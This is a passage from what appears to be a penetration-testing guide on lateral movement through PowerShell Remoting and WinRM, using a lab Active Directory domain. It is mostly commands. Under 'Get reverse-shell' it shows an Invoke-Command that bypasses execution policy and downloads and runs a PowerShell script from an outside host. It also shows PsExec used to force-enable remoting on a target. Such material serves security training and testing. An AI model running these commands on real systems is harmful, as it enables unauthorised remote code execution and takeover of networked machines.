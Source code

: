 ```ruby
Invoke-Command -ComputerName <computername> -FilePath C:\path\to\script\file [-credential CSCOU\jarrieta]
```

### Get reverse-shell

```ruby
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10:8080/ipst.ps1')"}
```

### Get a PS session

Or, if you want to drop right into an interactive PowerShell session, use the `Enter-PSSession` function:

```ruby
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local [-Credential username]
```

![](<../.gitbook/assets/image (164).png>)

**The session will run in a new process (wsmprovhost) inside the "victim"**

### **Forcing WinRM Open**

If you really want to use PS Remoting and WinRM but the target isn't configured for it, you could "force" it on through a single command. I wouldn't recommend this but if you really wanted to use WinRM or PSRemoting than by all means do it this way. For example, using PSExec:

```
PS C:\tools\SysinternalsSuite> .\PsExec.exe \\computername -u domain\username -p password -h -d powershell.exe "enable-psremoting -force"
```
